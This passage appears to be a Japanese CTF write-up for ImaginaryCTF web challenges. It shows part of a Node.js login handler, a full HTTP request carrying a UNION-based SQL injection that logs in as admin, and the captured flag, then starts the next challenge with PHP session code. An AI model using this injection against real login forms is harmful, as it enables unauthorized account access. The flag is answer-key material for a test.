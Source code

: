 ```js
        res.status(500).send("Error retrieving user");
      } else {
        console.log(row);
        if (row) {
          req.session.loggedIn = true;
          req.session.username = username;
          res.send("Login successful!");
        } else {
          res.status(401).send("Invalid username or password");
        }
      }
    }
  );
});
<SNIP>
```

SQLインジェクションでadminとしてログインすればよい。  
ただし、adminのデータがデータベースに存在しないため、UNION句を使って空のadminデータをつける必要がある。

```http
POST /login HTTP/1.1
Host: blank.chal.imaginaryctf.org
Content-Length: 65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://blank.chal.imaginaryctf.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://blank.chal.imaginaryctf.org/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close

username=admin&password=a"union+all+select+null,"admin",null;--+-
```

その後`/flag`にアクセスするとフラグがもらえる。

```text
ictf{sqli_too_powerful_9b36140a}
```

## idoriot-revenge

ログインすると、ソースコードが見れる。

```php
<?php

session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}
```